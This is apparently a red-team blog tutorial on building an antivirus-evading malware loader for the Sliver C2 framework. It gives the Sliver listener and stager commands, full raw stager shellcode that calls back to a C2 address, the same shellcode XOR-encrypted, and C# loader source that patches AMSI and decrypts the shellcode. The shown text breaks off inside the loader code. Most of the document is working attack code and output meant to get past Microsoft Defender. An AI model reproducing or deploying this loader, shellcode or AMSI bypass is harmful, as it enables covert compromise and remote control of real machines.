


# Introduction
In this post, we will cover how to make a undetectable malware or loader for our Red team operation or penetration testing. To establish a unified control and command (C2) framework for post exploitation, we often need a loader, beacon or stager generated by that same C2 framework to be executed on the target system. The issue stands where the shellcode generated by most open-source C2 framework happens to have well known  bad characters, hence making them highly detectable, triggering even the most basic Anti-Virus. The fact that, we can only use the C2’s shellcode leads us to dig into Malware Development Evasion Techniques, so that the same highly evasive shellcode from our C2, does not get detect, terminated, and halting our engagement… leaving us very frustrated at the end. 

let’s get started.

# Malware Development
There are quite a few evasion techniques out there depending on the security measure that we want to evade from. For our use-case we want to evade Microsoft Defender primarily. After some research on the topic and intel from my fellow hackers, it appears  that encrypting the shellcode is sufficient enough to evade MS Defender. let us do just that and test that theory.

## Command and Control set Up
We are using sliver C2 as our Command and Control of choice.

```bash
└─$ ./sliver-server

Sliver  Copyright (C) 2022  Bishop Fox
This program comes with ABSOLUTELY NO WARRANTY; for details type 'licenses'.
This is free software, and you are welcome to redistribute it
under certain conditions; type 'licenses' for details.

Unpacking assets ...

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain indestructible
[*] Server v1.5.39 - 422a1d39c372cde03a27abd505de7e3be7360581 - Dirty
[*] Welcome to the sliver shell, please type 'help' for options
```

We now create a profile, because stager only works with profiles. We want to use stager because of the variety of format we can get in comparison to just an implant.

We configure our profile for beacon mode, a csharp format, and the the call back port number to 8088.

```bash
[server] sliver > profiles new beacon --http 172.22.76.175:8088 --format shellcode evaded

[*] Saved new implant profile (beacon) evaded

[server] sliver >
```

We then create the listener for the profile,  to catch the second stage of the payload

```bash
[server] sliver > http -L 172.22.76.175 -l 8088

[*] Starting HTTP :8088 listener ...
[*] Successfully started job #8

[server] sliver >
```

Now, we create the stager listener for the first stage of the payload, and link it to the profile, else, the second stage listener, will not be reach by our payload, this explains the importance of the profile as well, in addition to being a benchmark configuration for all stager linked to the profile.

```bash
[server] sliver > stage-listener --url tcp://172.22.76.175:4443 --profile evaded

[*] No builds found for profile evaded, generating a new one
[*] Sliver name for profile evaded: FRENCH_PHRASE
[*] Job 9 (tcp) started
```

The stage listener generates a shellcode whilst creating the listener available to us at `172.22.76.175:4443/FRENCH_PHRASE.woff`. see documentation on stager here https://sliver.sh/docs?name=Stagers

However, we are not doing that, I have gone through the documentation mentioned above and that method does trigger MS Defender unfortunately, even using an encrypted stager.

Though Sliver already have a shellcode generated at 172.22.76.175:4443/french_phase.woff, let us generate another with the format csharp even though that will give us a hexadecimal format shellcode that is not available from implants.

```bash
[server] sliver > help generate stager

Command: generate stager <options>
About: Generate a new sliver stager shellcode and saves the output to the cwd or a path specified with --save, or to stdout using --format.

++ Bad Characters ++
Bad characters must be specified like this for single bytes:

generate stager -b 00

And like this for multiple bytes:

generate stager -b '00 0a cc'

++ Output Formats ++
You can use the --format flag to print out the shellcode to stdout, in one of the following transform formats:
bash c csharp dw dword hex java js_be js_le num perl pl powershell ps1 py python raw rb ruby sh vbapplication vbscript
```

## Shellcode Obfuscation

Let’s generate the shellcode...

```bash
[server] sliver > generate stager --lhost 172.22.76.175 --lport 4443 --format csharp --save staged.txt

[*] Sliver implant stager saved to: /home/maine/tools/staged.txt

[server] sliver >
```

we get this 

```bash
cat staged.txt
byte[] buf = new byte[511] {0xfc,0x48,0x83,0xe4,0xf0,0xe8,
0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,
0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,0x48,0x0f,
0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,
0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x48,
0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x66,0x81,0x78,
0x18,0x0b,0x02,0x41,0x51,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0x50,
0xe3,0x56,0x48,0xff,0xc9,0x4d,0x31,0xc9,0x41,0x8b,0x34,0x88,
0x48,0x01,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,
0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,
0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,
0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,
0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,
0x01,0x00,0x00,0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x11,0x5b,
0xac,0x16,0x4c,0xaf,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1,
0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,
0xd5,0x6a,0x0a,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,
0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89,
0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7,
0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,
0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,
0xce,0x75,0xe5,0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,
0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x04,0x41,0x58,0x48,0x89,
0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00,
0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,
0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,
0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,
0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89,
0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,
0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40,
0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,
0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,
0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x01,0xc3,
0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58,
0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff,
0xd5};
```

We will hide our shellcode  with some sort of encryption so that, the AV does not detect it nor block it by literally just reading the strings and detecting malicious words and bad characters. When it comes to encrypting our shellcode against MS Defender, I believe any encryption would do ,we are opting for XOR encryption.

Now, let’s remove white space from the text in staged.txt using something like [Code Beautify](https://codebeautify.org/remove-extra-spaces), I’m not sure if that was necessary, but well… 

```csharp
0xfc,0x48,0x83,0xe4,0xf0,0xe8, 0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2, 0x51,0x56,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48, 0x8b,0x52,0x20,0x4d,0x31,0xc9,0x48,0x8b,0x72,0x50,0x48,0x0f, 0xb7,0x4a,0x4a,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c, 0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x48, 0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x66,0x81,0x78, 0x18,0x0b,0x02,0x41,0x51,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b, 0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01, 0xd0,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0x50, 0xe3,0x56,0x48,0xff,0xc9,0x4d,0x31,0xc9,0x41,0x8b,0x34,0x88, 0x48,0x01,0xd6,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41, 0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45, 0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0, 0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0, 0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e, 0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20, 0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9, 0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33, 0x32,0x00,0x00,0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0, 0x01,0x00,0x00,0x49,0x89,0xe5,0x49,0xbc,0x02,0x00,0x11,0x5b, 0xac,0x16,0x4c,0xaf,0x41,0x54,0x49,0x89,0xe4,0x4c,0x89,0xf1, 0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68, 0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff, 0xd5,0x6a,0x0a,0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31, 0xc0,0x48,0xff,0xc0,0x48,0x89,0xc2,0x48,0xff,0xc0,0x48,0x89, 0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,0x48,0x89,0xc7, 0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba, 0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff, 0xce,0x75,0xe5,0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10, 0x48,0x89,0xe2,0x4d,0x31,0xc9,0x6a,0x04,0x41,0x58,0x48,0x89, 0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,0x83,0xf8,0x00, 0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41, 0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48, 0x31,0xc9,0x41,0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89, 0xc3,0x49,0x89,0xc7,0x4d,0x31,0xc9,0x49,0x89,0xf0,0x48,0x89, 0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5, 0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40, 0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f, 0x30,0xff,0xd5,0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff, 0xd5,0x49,0xff,0xce,0xe9,0x3c,0xff,0xff,0xff,0x48,0x01,0xc3, 0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,0xff,0xe7,0x58, 0x6a,0x00,0x59,0xbb,0xe0,0x1d,0x2a,0x0a,0x41,0x89,0xda,0xff, 0xd5
```

Take the one-liner shellcode (same shellcode without white spaces) and xor encrypt it, or ask chatgpt to xor it or [cyberchef](https://gchq.github.io/CyberChef/#recipe=XOR(%7B'option':'Hex','string':''%7D,'Standard',false)), with your key (eg 0x5c)

We get this

```csharp
0xa0, 0x14, 0xdf, 0xb8, 0xac, 0xb4, 0x90, 0x5c, 0x5c, 0x5c, 0x1d, 0x0d, 0x1d, 0x0c, 0x0e, 0x14, 0x6d, 0x8e, 0x0d, 0x0a, 0x39, 0x14, 0xd7, 0x0e, 0x3c, 0x14, 0xd7, 0x0e, 0x44, 0x14, 0xd7, 0x0e, 0x7c, 0x11, 0x6d, 0x95, 0x14, 0xd7, 0x2e, 0x0c, 0x14, 0x53, 0xeb, 0x16, 0x16, 0x14, 0x6d, 0x9c, 0xf0, 0x60, 0x3d, 0x20, 0x5e, 0x70, 0x7c, 0x1d, 0x9d, 0x95, 0x51, 0x1d, 0x5d, 0x9d, 0xbe, 0xb1, 0x0e, 0x14, 0xd7, 0x0e, 0x7c, 0xd7, 0x1e, 0x60, 0x14, 0x5d, 0x8c, 0x3a, 0xdd, 0x24, 0x44, 0x57, 0x5e, 0x1d, 0x0d, 0x53, 0xd9, 0x2e, 0x5c, 0x5c, 0x5c, 0xd7, 0xdc, 0xd4, 0x5c, 0x5c, 0x5c, 0x14, 0xd9, 0x9c, 0x28, 0x3b, 0x14, 0x5d, 0x8c, 0xd7, 0x14, 0x44, 0x18, 0xd7, 0x1c, 0x7c, 0x15, 0x5d, 0x8c, 0x0c, 0xbf, 0x0a, 0x14, 0xa3, 0x95, 0x11, 0x6d, 0x95, 0x1d, 0xd7, 0x68, 0xd4, 0x14, 0x5d, 0x8a, 0x14, 0x6d, 0x9c, 0xf0, 0x1d, 0x9d, 0x95, 0x51, 0x1d, 0x5d, 0x9d, 0x64, 0xbc, 0x29, 0xad, 0x10, 0x5f, 0x10, 0x78, 0x54, 0x19, 0x65, 0x8d, 0x29, 0x84, 0x04, 0x18, 0xd7, 0x1c, 0x78, 0x15, 0x5d, 0x8c, 0x3a, 0x1d, 0xd7, 0x50, 0x14, 0x18, 0xd7, 0x1c, 0x40, 0x15, 0x5d, 0x8c, 0x1d, 0xd7, 0x58, 0xd4, 0x14, 0x5d, 0x8c, 0x1d, 0x04, 0x1d, 0x04, 0x02, 0x05, 0x06, 0x1d, 0x04, 0x1d, 0x05, 0x1d, 0x06, 0x14, 0xdf, 0xb0, 0x7c, 0x1d, 0x0e, 0xa3, 0xbc, 0x04, 0x1d, 0x05, 0x06, 0x14, 0xd7, 0x4e, 0xb5, 0x17, 0xa3, 0xa3, 0xa3, 0x01, 0x15, 0xe2, 0x2b, 0x2f, 0x6e, 0x03, 0x6f, 0x6e, 0x5c, 0x5c, 0x1d, 0x0a, 0x15, 0xd5, 0xba, 0x14, 0xdd, 0xb0, 0xfc, 0x5d, 0x5c, 0x5c, 0x15, 0xd5, 0xb9, 0x15, 0xe0, 0x5e, 0x5c, 0x4d, 0x07, 0xf0, 0x4a, 0x10, 0xf3, 0x1d, 0x08, 0x15, 0xd5, 0xb8, 0x10, 0xd5, 0xad, 0x1d, 0xe6, 0x10, 0x2b, 0x7a, 0x5b, 0xa3, 0x89, 0x10, 0xd5, 0xb6, 0x34, 0x5d, 0x5d, 0x5c, 0x5c, 0x05, 0x1d, 0xe6, 0x75, 0xdc, 0x37, 0x5c, 0xa3, 0x89, 0x36, 0x56, 0x1d, 0x02, 0x0c, 0x0c, 0x11, 0x6d, 0x95, 0x11, 0x6d, 0x9c, 0x14, 0xa3, 0x9c, 0x14, 0xd5, 0x9e, 0x14, 0xa3, 0x9c, 0x14, 0xd5, 0x9d, 0x1d, 0xe6, 0xb6, 0x53, 0x83, 0xbc, 0xa3, 0x89, 0x14, 0xd5, 0x9b, 0x36, 0x4c, 0x1d, 0x04, 0x10, 0xd5, 0xbe, 0x14, 0xd5, 0xa5, 0x1d, 0xe6, 0xc5, 0xf9, 0x28, 0x3d, 0xa3, 0x89, 0xd9, 0x9c, 0x28, 0x56, 0x15, 0xa3, 0x92, 0x29, 0xb9, 0xb4, 0xcf, 0x5c, 0x5c, 0x5c, 0x14, 0xdf, 0xb0, 0x4c, 0x14, 0xd5, 0xbe, 0x11, 0x6d, 0x95, 0x36, 0x58, 0x1d, 0x04, 0x14, 0xd5, 0xa5, 0x1d, 0xe6, 0x5e, 0x85, 0x94, 0x03, 0xa3, 0x89, 0xdf, 0xa4, 0x5c, 0x22, 0x09, 0x14, 0xdf, 0x98, 0x7c, 0x02, 0xd5, 0xaa, 0x36, 0x1c, 0x1d, 0x05, 0x34, 0x5c, 0x4c, 0x5c, 0x5c, 0x1d, 0x04, 0x14, 0xd5, 0xae, 0x14, 0x6d, 0x95, 0x1d, 0xe6, 0x04, 0xf8, 0x0f, 0xb9, 0xa3, 0x89, 0x14, 0xd5, 0x9f, 0x15, 0xd5, 0x9b, 0x11, 0x6d, 0x95, 0x15, 0xd5, 0xac, 0x14, 0xd5, 0x86, 0x14, 0xd5, 0xa5, 0x1d, 0xe6, 0x5e, 0x85, 0x94, 0x03, 0xa3, 0x89, 0xdf, 0xa4, 0x5c, 0x21, 0x74, 0x04, 0x1d, 0x0b, 0x05, 0x34, 0x5c, 0x1c, 0x5c, 0x5c, 0x1d, 0x04, 0x36, 0x5c, 0x06, 0x1d, 0xe6, 0x57, 0x73, 0x53, 0x6c, 0xa3, 0x89, 0x0b, 0x05, 0x1d, 0xe6, 0x29, 0x32, 0x11, 0x3d, 0xa3, 0x89, 0x15, 0xa3, 0x92, 0xb5, 0x60, 0xa3, 0xa3, 0xa3, 0x14, 0x5d, 0x9f, 0x14, 0x75, 0x9a, 0x14, 0xd9, 0xaa, 0x29, 0xe8, 0x1d, 0xa3, 0xbb, 0x04, 0x36, 0x5c, 0x05, 0xe7, 0xbc, 0x41, 0x76, 0x56, 0x1d, 0xd5, 0x86, 0xa3, 0x89
```
With the shellcode obfuscated, let's go to our IDE and use that.


## Evade MS Defender
Now that we have the encrypted shellcode, paste the latter in the buff value (see code below), do replace the demo key of 0x5c  with you own as well. 

You will notice below in the source code below that, we also have added an AMSI Patch, although XOR’ing the shellcode alone did get us a shell, after testing we encountered few issues, MS Defender prompting the user to scan or quarantine our payload though Defender itself does not terminate our session. It is only after we have added ANSI bypass in our code, that MS Defender really stayed quiet for good. And below is the final code.

```csharp
using System;
using System.Linq;
using System.Reflection;
using System.Runtime.InteropServices;

namespace NotMalware
{
    internal class Program
    {
        [DllImport("kernel32")]
        private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

        [DllImport("kernel32")]
        private static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, UInt32 flNewProtect, out UInt32 lpflOldProtect);

        [DllImport("kernel32")]
        private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

        [DllImport("kernel32")]
        private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            //patching AMSI, Bypasses AMSI scanning by forcing it into a failed state.
            Type amsiUtils = Type.GetType("System.Management.Automation.AmsiUtils, System.Management.Automation");
            if (amsiUtils != null)
            {
                FieldInfo amsiInitFailed = amsiUtils.GetField("amsiInitFailed",
                    BindingFlags.NonPublic | BindingFlags.Static);
                    amsiInitFailed.SetValue(null, true); 
            }

            // XOR'ed Sliver Shellcode with 0x5c
            byte[] buf = new byte[] { 0xa0, 0x14, 0xdf, 0xb8, 0xac, 0xb4, 0x90, 0x5c, 0x5c, 0x5c, 0x1d, 0x0d, 0x1d, 0x0c, 0x0e, 0x14, 0x6d, 0x8e, 0x0d, 0x0a, 0x39, 0x14, 0xd7, 0x0e, 0x3c, 0x14, 0xd7, 0x0e, 0x44, 0x14, 0xd7, 0x0e, 0x7c, 0x11, 0x6d, 0x95, 0x14, 0xd7, 0x2e, 0x0c, 0x14, 0x53, 0xeb, 0x16, 0x16, 0x14, 0x6d, 0x9c, 0xf0, 0x60, 0x3d, 0x20, 0x5e, 0x70, 0x7c, 0x1d, 0x9d, 0x95, 0x51, 0x1d, 0x5d, 0x9d, 0xbe, 0xb1, 0x0e, 0x14, 0xd7, 0x0e, 0x7c, 0xd7, 0x1e, 0x60, 0x14, 0x5d, 0x8c, 0x3a, 0xdd, 0x24, 0x44, 0x57, 0x5e, 0x1d, 0x0d, 0x53, 0xd9, 0x2e, 0x5c, 0x5c, 0x5c, 0xd7, 0xdc, 0xd4, 0x5c, 0x5c, 0x5c, 0x14, 0xd9, 0x9c, 0x28, 0x3b, 0x14, 0x5d, 0x8c, 0xd7, 0x14, 0x44, 0x18, 0xd7, 0x1c, 0x7c, 0x15, 0x5d, 0x8c, 0x0c, 0xbf, 0x0a, 0x14, 0xa3, 0x95, 0x11, 0x6d, 0x95, 0x1d, 0xd7, 0x68, 0xd4, 0x14, 0x5d, 0x8a, 0x14, 0x6d, 0x9c, 0xf0, 0x1d, 0x9d, 0x95, 0x51, 0x1d, 0x5d, 0x9d, 0x64, 0xbc, 0x29, 0xad, 0x10, 0x5f, 0x10, 0x78, 0x54, 0x19, 0x65, 0x8d, 0x29, 0x84, 0x04, 0x18, 0xd7, 0x1c, 0x78, 0x15, 0x5d, 0x8c, 0x3a, 0x1d, 0xd7, 0x50, 0x14, 0x18, 0xd7, 0x1c, 0x40, 0x15, 0x5d, 0x8c, 0x1d, 0xd7, 0x58, 0xd4, 0x14, 0x5d, 0x8c, 0x1d, 0x04, 0x1d, 0x04, 0x02, 0x05, 0x06, 0x1d, 0x04, 0x1d, 0x05, 0x1d, 0x06, 0x14, 0xdf, 0xb0, 0x7c, 0x1d, 0x0e, 0xa3, 0xbc, 0x04, 0x1d, 0x05, 0x06, 0x14, 0xd7, 0x4e, 0xb5, 0x17, 0xa3, 0xa3, 0xa3, 0x01, 0x15, 0xe2, 0x2b, 0x2f, 0x6e, 0x03, 0x6f, 0x6e, 0x5c, 0x5c, 0x1d, 0x0a, 0x15, 0xd5, 0xba, 0x14, 0xdd, 0xb0, 0xfc, 0x5d, 0x5c, 0x5c, 0x15, 0xd5, 0xb9, 0x15, 0xe0, 0x5e, 0x5c, 0x4d, 0x07, 0xf0, 0x4a, 0x10, 0xf3, 0x1d, 0x08, 0x15, 0xd5, 0xb8, 0x10, 0xd5, 0xad, 0x1d, 0xe6, 0x10, 0x2b, 0x7a, 0x5b, 0xa3, 0x89, 0x10, 0xd5, 0xb6, 0x34, 0x5d, 0x5d, 0x5c, 0x5c, 0x05, 0x1d, 0xe6, 0x75, 0xdc, 0x37, 0x5c, 0xa3, 0x89, 0x36, 0x56, 0x1d, 0x02, 0x0c, 0x0c, 0x11, 0x6d, 0x95, 0x11, 0x6d, 0x9c, 0x14, 0xa3, 0x9c, 0x14, 0xd5, 0x9e, 0x14, 0xa3, 0x9c, 0x14, 0xd5, 0x9d, 0x1d, 0xe6, 0xb6, 0x53, 0x83, 0xbc, 0xa3, 0x89, 0x14, 0xd5, 0x9b, 0x36, 0x4c, 0x1d, 0x04, 0x10, 0xd5, 0xbe, 0x14, 0xd5, 0xa5, 0x1d, 0xe6, 0xc5, 0xf9, 0x28, 0x3d, 0xa3, 0x89, 0xd9, 0x9c, 0x28, 0x56, 0x15, 0xa3, 0x92, 0x29, 0xb9, 0xb4, 0xcf, 0x5c, 0x5c, 0x5c, 0x14, 0xdf, 0xb0, 0x4c, 0x14, 0xd5, 0xbe, 0x11, 0x6d, 0x95, 0x36, 0x58, 0x1d, 0x04, 0x14, 0xd5, 0xa5, 0x1d, 0xe6, 0x5e, 0x85, 0x94, 0x03, 0xa3, 0x89, 0xdf, 0xa4, 0x5c, 0x22, 0x09, 0x14, 0xdf, 0x98, 0x7c, 0x02, 0xd5, 0xaa, 0x36, 0x1c, 0x1d, 0x05, 0x34, 0x5c, 0x4c, 0x5c, 0x5c, 0x1d, 0x04, 0x14, 0xd5, 0xae, 0x14, 0x6d, 0x95, 0x1d, 0xe6, 0x04, 0xf8, 0x0f, 0xb9, 0xa3, 0x89, 0x14, 0xd5, 0x9f, 0x15, 0xd5, 0x9b, 0x11, 0x6d, 0x95, 0x15, 0xd5, 0xac, 0x14, 0xd5, 0x86, 0x14, 0xd5, 0xa5, 0x1d, 0xe6, 0x5e, 0x85, 0x94, 0x03, 0xa3, 0x89, 0xdf, 0xa4, 0x5c, 0x21, 0x74, 0x04, 0x1d, 0x0b, 0x05, 0x34, 0x5c, 0x1c, 0x5c, 0x5c, 0x1d, 0x04, 0x36, 0x5c, 0x06, 0x1d, 0xe6, 0x57, 0x73, 0x53, 0x6c, 0xa3, 0x89, 0x0b, 0x05, 0x1d, 0xe6, 0x29, 0x32, 0x11, 0x3d, 0xa3, 0x89, 0x15, 0xa3, 0x92, 0xb5, 0x60, 0xa3, 0xa3, 0xa3, 0x14, 0x5d, 0x9f, 0x14, 0x75, 0x9a, 0x14, 0xd9, 0xaa, 0x29, 0xe8, 0x1d, 0xa3, 0xbb, 0x04, 0x36, 0x5c, 0x05, 0xe7, 0xbc, 0x41, 0x76, 0x56, 0x1d, 0xd5, 0x86, 0xa3, 0x89 };

            // Decrypt shellcode
            int i = 0;
            while (i < buf.Length)
            {
                buf[i] = (byte)(buf[i] ^ 0x5c);
                i++;
            }

            // Allocate RW space for shellcode
